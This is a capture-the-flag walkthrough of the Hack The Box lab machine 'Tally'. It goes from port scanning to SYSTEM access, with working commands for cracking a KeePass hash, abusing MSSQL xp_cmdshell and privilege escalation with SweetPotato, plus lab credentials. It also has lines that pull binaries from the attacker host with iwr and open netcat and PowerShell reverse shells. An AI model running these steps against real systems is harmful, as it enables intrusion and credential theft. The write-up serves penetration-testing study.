


# [Tally](https://app.hackthebox.com/machines/tally)

```bash
nmap -p- --min-rate 10000 10.10.10.59 -Pn 
```


After knowing open ports, let's do greater nmap scan.


```bash
nmap -A -sC -sV -p21,80,135,139,445,5985 10.10.10.59 -Pn
```


While I browse this application, it returns like this.


Let's do directory enumeration.

```bash
gobuster dir -u http://10.10.10.59/_layouts/15/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x aspx
```


After enumeration, I find a page via this [URL](http://10.10.10.59/shared%20documents/forms/allitems.aspx).


I find a file called 'ftp-details.docx'.



I grab credentials from here.

hostname: tally
password: UTDRSCH53c"$6hys


Another thing 'username' which I need to find is from this [URL](http://10.10.10.59/SitePages/FinanceTeam.aspx)

username: ftp_user

Let's login into FTP.

I find `.kdbx` file on this location (User\Tim\Files\tim.kdbx).


I download this file and try to crack via `keepass2john` command.

```bash
keepass2john tim.kdbx > hash.txt
#remove "tim:" string from beginning
hashcat -m 13400 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Password: simplementeyo

After opening `keepass2` I can see entries.


Let's enumerate SMB share via `smbmap` tool.

```bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting'
```


Let's use this credentials via `smbclient`.

Finance: Acc0unting


Let's access into '**ACCT**' share

```bash
smbclient -U '10.10.10.59\Finance' //10.10.10.59/ACCT
```


From this location (\zz_Migration\Binaries\New folder\) I grab a file called 'tester.exe' file.


While I read this executable via `strings` command.




I grab password from this executable.

sa: GWE3V65#6KFH93@4GWTG2G

That's credentials of `MSSQL`, let's use `mssqlclient.py` script of `Impacket`.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59
```

To run commands, we need to do first `enable_xp_cmdshell`, then run commands via `xp_cmdshell`.


Let's generate Powershell reverse shell script fromt this [website](https://www.revshells.com/).

I select **base64 encoded version of this**.


And I paste this value into MSSQL Shell via `xp_cmdshell {payload}`.


I got reverse shell from port (1337).


user.txt


While I doing `whoami /priv` command for privilege escalation, I see that 'SeImpersonatePrivilege' is enabled.


Due to '**SeImpersonatePrivilege**', I use exploit called [SweetPotato](https://github.com/CCob/SweetPotato).


Now, I open http server to upload `nc.exe` and `SweetPotato.exe` into target machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```


Then, I download this binaries into target machine.

```bash
iwr 10.10.16.8:8080/SweetPotato.exe -outfile sp.exe
iwr 10.10.16.8:8080/nc.exe -outfile nc64.exe
```


Let's use this exploit.

```bash
.\sp.exe -p "\programdata\nc64.exe" -a "-e powershell 10.10.16.8 1338"
```


I got reverse shell from port (1338).

root.txt

